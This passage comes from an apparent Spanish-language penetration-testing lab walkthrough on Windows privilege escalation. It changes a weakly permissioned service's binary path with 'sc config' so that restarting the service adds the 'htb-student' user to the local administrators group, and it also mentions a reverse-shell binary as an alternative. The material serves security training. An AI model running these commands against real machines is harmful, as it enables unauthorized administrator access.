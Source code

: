 ### Check Local Admin Group

Verificando el grupo de administradores locales confirmamos que nuestro usuario `htb-student` no es miembro.

```r
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
 
Members
 
-------------------------------------------------------------------------------
Administrator
mrb3n
The command completed successfully.
```

### Changing the Service Binary Path

Podemos usar nuestros permisos para cambiar la ruta del binario de manera maliciosa. Vamos a cambiarla para agregar nuestro usuario al grupo de administradores locales. Podríamos establecer la ruta del binario para ejecutar cualquier comando o ejecutable de nuestra elección (como un binario de reverse shell).

```r
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS
```

### Stopping Service

A continuación, debemos detener el servicio para que el nuevo comando `binpath` se ejecute la próxima vez que se inicie.

```r
C:\htb> sc stop WindscribeService
 
SERVICE_NAME: WindscribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x4
        WAIT_HINT          : 0x0
```

### Starting the Service

Como tenemos control total sobre el servicio, podemos iniciarlo nuevamente, y el comando que colocamos en el `binpath` se ejecutará incluso si se devuelve un mensaje de error. El servicio falla al iniciar porque el `binpath` no apunta al ejecutable real del servicio. Sin embargo, el ejecutable se ejecutará cuando el sistema intente iniciar el servicio antes de producir un error y detener el servicio nuevamente, ejecutando cualquier comando que especifiquemos en el `binpath`.
